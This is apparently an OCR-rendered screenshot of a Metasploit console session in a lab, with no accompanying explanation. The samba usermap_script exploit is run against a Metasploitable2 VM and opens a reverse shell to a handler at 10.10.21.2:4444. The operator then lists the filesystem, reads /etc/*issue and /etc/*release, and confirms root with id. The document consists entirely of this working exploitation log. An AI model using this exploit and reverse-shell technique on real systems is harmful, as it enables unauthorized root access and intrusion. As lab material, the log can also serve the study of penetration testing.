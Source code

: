 ```
msf6 exploit(multi/samba/usermap_script) > exploit

[*] Started reverse TCP handler on 10.10.21.2:4444 
[*] Command shell session 1 opened (10.10.21.2:4444 -> 10.0.27.245:46630 ) at 2023-05-16 13:33:17 +0530

pwd
/
ls 
bin
boot
cdrom
core
dev
etc
home
initrd
initrd.img
lib
lost+found
media
mnt
nohup.out
opt
proc
root
sbin
srv
sys
tmp
usr
var
vmlinuz
cat /etc/*issue
                _                  _       _ _        _     _      ____  
 _ __ ___   ___| |_ __ _ ___ _ __ | | ___ (_) |_ __ _| |__ | | ___|___ \ 
| '_ ` _ \ / _ \ __/ _` / __| '_ \| |/ _ \| | __/ _` | '_ \| |/ _ \ __) |
| | | | | |  __/ || (_| \__ \ |_) | | (_) | | || (_| | |_) | |  __// __/ 
|_| |_| |_|\___|\__\__,_|___/ .__/|_|\___/|_|\__\__,_|_.__/|_|\___|_____|
                            |_|                                          


Warning: Never expose this VM to an untrusted network!

Contact: msfdev[at]metasploit.com

Login with msfadmin/msfadmin to get started


cat /etc/*release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=8.04
DISTRIB_CODENAME=hardy
DISTRIB_DESCRIPTION="Ubuntu 8.04"
id
uid=0(root) gid=0(root)
^Z
Background session 1? [y/N]  y
```
